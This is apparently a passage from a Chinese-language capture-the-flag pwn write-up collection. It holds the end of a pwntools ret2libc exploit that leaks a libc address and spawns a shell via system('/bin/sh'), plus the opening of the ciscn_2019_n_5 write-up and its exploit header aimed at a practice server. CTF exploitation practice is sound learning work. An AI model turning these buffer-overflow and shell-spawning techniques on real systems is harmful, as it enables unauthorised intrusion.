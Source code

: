 ```python
    else:
        target = remote(HOST, PORT)
    return target


def main():
    target = launch()

    payload_1 = b"\x00" * 0x7 + b"\xff" + b"\x00"
    target.send(payload_1)
    target.recvuntil(b"\x0a")
    payload = flat(b"A" * 0xEB, elf.plt["puts"], p32(elf.sym["main"]), elf.got["puts"])
    target.send(payload)
    libc.address = u32(target.recv(0x4)) - libc.sym["puts"]

    target.send(payload_1)
    target.recvuntil(b"\x0a")
    payload = flat(b"A" * 0xEB, libc.sym["system"], 0, next(libc.search(b"/bin/sh")))
    target.send(payload)
    target.interactive()


if __name__ == "__main__":
    main()
```

# ciscn_2019_n_5

## Information

- Category: Pwn
- Points: 1

## Write-up

一个保护都没开，本来想打 ret2shellcode，但是奈何没给 libc，啥也不是！

无奈，只得使用好久没用过的 `LibcSearcher` 了 lol

## Exploit

```python
#!/usr/bin/env python3

from pwn import (
    ROP,
    args,
    context,
    flat,
    process,
    raw_input,
    remote,
    u64,
)

from LibcSearcher.LibcSearcher import LibcSearcher

FILE = "./ciscn_2019_n_5"
HOST, PORT = "node5.buuoj.cn", 26903

context(log_level="debug", binary=FILE, terminal="kitty")

```